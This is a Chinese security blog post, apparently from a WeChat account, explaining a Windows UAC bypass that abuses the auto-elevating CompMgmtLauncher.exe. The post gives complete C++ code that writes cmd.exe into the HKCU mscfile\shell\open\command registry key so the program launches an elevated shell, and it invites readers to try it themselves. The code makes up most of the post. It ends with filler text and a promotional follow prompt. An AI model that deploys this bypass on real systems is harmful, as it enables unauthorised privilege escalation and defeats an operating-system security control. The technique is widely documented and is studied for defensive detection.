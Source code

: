 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5Vlg6XsPMZx_xx7THBTBvQ)

前言

    **有些系统程序在运行时，是不会触发 UAC 的，这类程序都为 "白名单" 程序，而我们就可以使用这类程序来进行 Bypass UAC**  

1.

    当 **CompMgmtLauncher.exe** 该程序启动时，会查询注册表 **Software\\classes\\mscfile\\shell\\open\\command** 的内容，并执行。

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyy7I7mM2qdgISUA0qQC7zhHXBqNstsiaG3YynDZcic0PFZLvhlwpPMiaORx6eptY4bonibF1nJAmef9qQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyy7I7mM2qdgISUA0qQC7zhHgMFUskB3jNqeFMg5R5ojhI37I1G9QAEpeiaAS5rsGpTo0lEWOfNNI2Q/640?wx_fmt=png)

2.

    代码实现如下：通过改写注册表即可完成  

```
#include "stdafx.h"
#include <windows.h>
#include <iostream>
using namespace std;

void bypass(){
  HKEY key;
  LPCSTR lpszFileName = "C:\\Windows\\System32\\cmd.exe";
  RegCreateKeyExA(HKEY_CURRENT_USER,"Software\\classes\\mscfile\\shell\\open\\command",0,NULL,0, KEY_WOW64_64KEY | KEY_ALL_ACCESS, NULL, &key, NULL);
  if(key == NULL){
    cout <<"Error" <<endl;
  }
  if(RegSetValueExA(key,NULL,0,(DWORD)REG_SZ,(BYTE*)lpszFileName,strlen(lpszFileName)+1)!= ERROR_SUCCESS){
    cout <<"Error" << endl;
      
    }
  RegCloseKey(key);
  
}


int _tmain(int argc, _TCHAR* argv[])
{
bypass();
getchar();
  return 0;
}
```

3.

    在运行一下 **CompMgmtLauncher.exe** 看一下，发现已经成功运行 **cmd** 程序

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyy7I7mM2qdgISUA0qQC7zhHsEicS5jencQpNsFOiaJ4EcxtgXGMiaqq5EadNonXg84jdy1er66iaT8TIg/640?wx_fmt=png)

4.

    本文章通过很简单的方法即可 Bypass UAC，具体线下可自行尝试。

凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字凑字

 **微信搜索关注 "安全族" 长期更新安全资料，扫一扫即可关注安全族！**

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWywCsRiaweFhRW8aDdjtoCoSU2eQAJ6KxKAoP0PSHvjGJvTZcRRXTAeSd9Qyib0ynLnBUwdiahhhOaSDQ/640?wx_fmt=jpeg)